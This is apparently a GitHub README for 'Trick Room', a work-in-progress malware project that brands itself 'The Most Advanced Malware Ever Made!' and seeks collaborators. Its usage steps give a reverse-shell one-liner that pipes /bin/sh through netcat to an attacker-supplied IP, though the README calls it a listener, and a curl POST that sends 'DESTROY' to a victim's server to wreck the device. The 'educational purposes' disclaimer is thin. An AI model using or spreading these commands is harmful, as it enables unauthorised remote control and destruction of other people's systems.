 ## Trick Room
The Most Advanced Malware Ever Made! Work In Progress, Looking For People To Colab With

## Creators

- [@LotusEmpire](https://www.github.com/lotusempire64) 





## Installation

```bash
git clone https://github.com/lotusempire64/Trick_Room 
cd Trick_Room  
```
## Warning/Disclaimor! 
Don't Run On Your Own Computer, Use Only For Educational Purposes And Don't Be Dumb

## Usage 
Step 1: Start a netcat listener: 
```bash 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOURIPHERE 8080 >/tmp/f
``` 
Step 2: Use post requests to controll target, it will send back the server IP 
Example Of Post Request To Destroy Victims Device: 
```bash 
curl VICTIMSERVERHERE -X POST -d DESTROY 
``` 
## This Is A Work In Progress 
If you have any features you want added, find any bugs, or would like to colaborate on this project, email me here: lotusempire6@gmail.com
